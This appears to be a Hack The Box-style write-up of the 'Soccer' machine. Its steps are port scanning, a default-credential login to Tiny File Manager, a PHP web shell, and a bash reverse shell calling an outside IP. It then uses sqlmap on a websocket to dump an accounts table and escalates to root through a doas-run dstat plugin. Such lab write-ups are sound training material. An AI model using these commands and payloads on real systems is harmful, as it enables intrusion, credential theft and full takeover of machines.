





# Enumeration
```
Nmap scan report for 10.10.11.194
Host is up (0.041s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```
The port 80 leads to a website called soccer.htb.
Using gobuster we find a directory called /tiny running tiny file manager.

Using default creds we get in 
`admin:admin@123`
We can upload a shell.php and use `bash -c 'bash -i >& /dev/tcp/10.10.14.37/9001 0>&1'` to get a shell:

Enumerating files at /etc/nginx we find a vhost `http://soc-player.soccer.htb/check`
There is a blind sql after login:
It only shows true or false. So should use queries like `0 UNION select user,2,3 from mysql.user where user like 'a%'-- -`
So using sqlmap:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3`

Now checking databases:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -threads 10 -dbs`

Then finding tables:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -threads 10 -D soccer_db --tables`
Here we found accounts table

Now dumping accounts table:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -threads 10 -D soccer_db -T accounts --dump`

Now logging in using ssh:


We found a group writeable file called dstat.
we also found an SUID binary called doas. It allows execution of commands as other users.
To find the config file: `find / 2>/dev/null | grep doas`
It seems we can run dstat as root.

Checking the plugins we can run in `/usr/share/dstat/`
We can also create a plugin in`/usr/local/share/dstat`
so creating a plugin called `dstat_shell.py` with
```python
import os; os.execv("/bin/sh", ["sh"])
```
Now we can run dstat plugin with `doas /usr/bin/dstat --shell`
We get a root shell.

